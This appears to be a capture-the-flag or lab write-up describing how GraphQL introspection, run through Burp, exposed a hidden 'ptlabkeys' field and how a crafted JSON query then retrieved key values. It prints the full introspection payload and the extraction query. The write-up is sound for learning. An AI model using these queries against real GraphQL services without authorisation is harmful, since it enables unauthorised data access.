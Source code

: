 ## Intro
On project, I saw

![intro](image.png)

On Burp, This request

![request](image-1.png)

Try to edit query graphql to retrieve data from schema using `IntrospectionQuery ` query hacktricks

```graphql
  #Full introspection query

query IntrospectionQuery {
    __schema {
        queryType {
            name
        }
        mutationType {
            name
        }
        subscriptionType {
            name
        }
        types {
         ...FullType
        }
        directives {
            name
            description
            args {
                ...InputValue
        }
        }
    }
}

fragment FullType on __Type {
    kind
    name
    description
    fields(includeDeprecated: true) {
        name
        description
        args {
            ...InputValue
        }
        type {
            ...TypeRef
        }
        isDeprecated
        deprecationReason
    }
    inputFields {
        ...InputValue
    }
    interfaces {
        ...TypeRef
    }
    enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
    }
    possibleTypes {
        ...TypeRef
    }
}

fragment InputValue on __InputValue {
    name
    description
    type {
        ...TypeRef
    }
    defaultValue
}

fragment TypeRef on __Type {
    kind
    name
    ofType {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
            }
        }
    }
}
```
It's not JSON type; try to convert `graphql` type : https://www.freeformatter.com/json-escape.html#before-output

![convert](image-2.png)

using escaped json payload, I got message

![sucesss](image-3.png)

`ptlabkeys` that what i need throw on response
```json
           {
              "name": "ptlabkeys",
              "description": null,
              "args": [
                {
                  "name": "offset",
                  "description": null,
                  "type": {
                    "kind": "SCALAR",
                    "name": "Int",
                    "ofType": null
                  },
                  "defaultValue": "0"
                }
```
TRy to retrieve this `ptlabkeys` project

![ptlabkeýs](image-4.png)

ptlabkeys project available, modify the query(plus `value\n`), I got value of `ptlabkeys`
```json
{"operationName":"ptlabkeys","variables":{"offset":10},"query":"query ptlabkeys($offset: Int) {\n  ptlabkeys(offset: $offset, limit: 10) {\n    id\n  value\n   __typename\n  }\n}\n"}
```
![key](image-5.png)

sucessful to retrieve a key